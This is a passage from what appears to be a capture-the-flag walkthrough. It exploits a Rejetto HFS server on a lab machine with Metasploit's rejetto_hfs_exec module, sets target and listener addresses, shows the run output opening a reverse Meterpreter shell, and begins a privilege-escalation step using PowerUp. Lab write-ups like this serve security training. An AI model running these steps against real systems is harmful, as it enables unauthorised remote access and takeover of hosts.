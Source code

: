 ```bash
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.139.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

We need to set `RHOST, RPOSRT,` and the `LHOST` options before running the exploit with the default payload.

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.82.184
RHOSTS => 10.10.82.184
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.4.72.115
LHOST => 10.4.72.115
```

After the options are set, we can run the exploit to get an initial connection with the meterpreter shell.

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.4.72.115:4444 
[*] Using URL: http://10.4.72.115:8080/SJ8v8G0BCsN
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /SJ8v8G0BCsN
[*] Sending stage (176198 bytes) to 10.10.82.184
[!] Tried to delete %TEMP%\nuvYzIBc.vbs, unknown result
[*] Meterpreter session 1 opened (10.4.72.115:4444 -> 10.10.82.184:49226) at 2024-04-19 18:33:55 +1000
[*] Server stopped.

meterpreter >
```

## PrivEsc

To escalate our privileges from a user account to an admin account, we can enumerate the machine to detect any abnormal services running with elevated privileges. The [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) script can be used to detect such abnormalities.
